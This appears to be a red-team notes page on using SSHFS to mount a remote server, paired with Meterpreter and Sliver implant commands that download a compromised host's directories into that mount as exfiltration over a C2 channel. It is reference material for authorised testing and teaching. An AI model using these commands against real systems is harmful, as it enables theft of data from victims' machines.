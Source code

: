 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

- Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

- To unmount the filesystem

`$ fusermount -u /mnt/ssh_filesystem/`

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

#### 2.1.2 - Sliver

`sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/`

---
## References

- [[Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/06 - File Transfer and Data Exfiltration/General/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]